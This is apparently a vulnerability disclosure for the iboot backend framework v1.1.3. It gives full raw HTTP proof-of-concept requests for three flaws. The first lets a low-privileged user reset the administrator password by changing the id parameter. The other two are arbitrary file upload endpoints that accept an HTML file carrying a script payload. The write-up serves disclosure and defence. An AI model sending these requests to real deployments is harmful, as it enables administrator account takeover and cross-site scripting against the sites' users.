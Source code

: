 BUG_Author

Longlong Gong

# Project

Address: [iboot](https://gitee.com/iteaj/iboot/)

## 1、Logical loopholes

###  1.1、`/core/admin/pwd` Ordinary users changing administrator password

[Affected version]

v1.1.3



[Affected Component]

/core/admin/pwd



[Software]

https://gitee.com/iteaj/iboot/repository/archive/v1.1.3



[Description]

There is a logical vulnerability in the id parameter of the `/core/admin/pwd` interface in the iboot backend management framework v1.1.3, which allows for the modification of passwords for management or any other user through this interface, resulting in low privileged users logging in as administrators

POC

```
POST /core/admin/pwd HTTP/1.1
Host: 192.168.1.184:8080
Authorization: session
x-requested-with: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Referer: http://192.168.1.184:8080/core/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_adedae9bc250561cc17e96dc1fb46079=1741931237,1741948074,1742043334; JSESSIONID=31B3E8CA0B98ED93CC1DD633AC20DF31
Connection: close
Content-Type: application/json
Content-Length: 52

{"password":"123456","surePassword":"123456","id":1}
```

![image-20250405165158782](assets/image-20250405165158782.png)

It can be seen that the demonstration user only has the permission to view. Here, by changing the ID of the password modification interface, the password for management can be directly modified

![image-20250405165309720](assets/image-20250405165309720.png)

Successfully logged into the administrator with the modified password

![image-20250405165347724](assets/image-20250405165347724.png)

## 2、File Upload

### 2.1、`/common/upload` Arbitrary File Upload

[Affected version]

v1.1.3



[Affected Component]

/common/upload



[Software]

https://gitee.com/iteaj/iboot/repository/archive/v1.1.3



[Description]

There is an arbitrary file upload vulnerability in the `/common/upload ` interface of the iboot backend management framework v1.1.3, which allows uploading files with arbitrary suffixes, such as HTML-XSS

POC

```
POST /common/upload HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: iframe
Referer: http://localhost:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=979D2EA2CB07DA3F12DDF4DA381776A6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0OBgRzAzprfZAVQw
Content-Length: 203

------WebKitFormBoundary0OBgRzAzprfZAVQw
Content-Disposition: form-data; name="file"; filename="1.html"
Content-Type: image/jpeg

<script>alert(1)</script>
------WebKitFormBoundary0OBgRzAzprfZAVQw--
```

We can see this upload interface for the code

![image-20250405172215611](assets/image-20250405172215611.png)

![image-20250405172238477](assets/image-20250405172238477.png)

The file suffixes here are directly concatenated without verification

![image-20250405172253503](assets/image-20250405172253503.png)

![image-20250405172316916](assets/image-20250405172316916.png)

Upload HTML XSS and concatenate the path behind the host

http://192.168.1.184:8080/img/upload/common/cf8618b7-9ee5-4ffa-b6b9-f6f4c9720039.html

![image-20250405172158281](assets/image-20250405172158281.png)

### 2.2、`/common/upload/batch` Arbitrary File Upload

[Affected version]

v1.1.3



[Affected Component]

/common/upload/batch



[Software]

https://gitee.com/iteaj/iboot/repository/archive/v1.1.3



[Description]

There is an arbitrary file upload vulnerability in the `/common/upload/batch ` interface of the iboot backend management framework v1.1.3, which allows uploading files with arbitrary suffixes, such as HTML-XSS

POC

```
POST /common/upload/batch HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: iframe
Referer: http://localhost:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=979D2EA2CB07DA3F12DDF4DA381776A6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0OBgRzAzprfZAVQw
Content-Length: 203

------WebKitFormBoundary0OBgRzAzprfZAVQw
Content-Disposition: form-data; name="file"; filename="1.html"
Content-Type: image/jpeg

<script>alert(1)</script>
------WebKitFormBoundary0OBgRzAzprfZAVQw--
```

Use the interface above to send the package, obtain the path, and concatenate the paths to see that XSS is successful

![image-20250405172936729](assets/image-20250405172936729.png)

![image-20250405172955147](assets/image-20250405172955147.png)
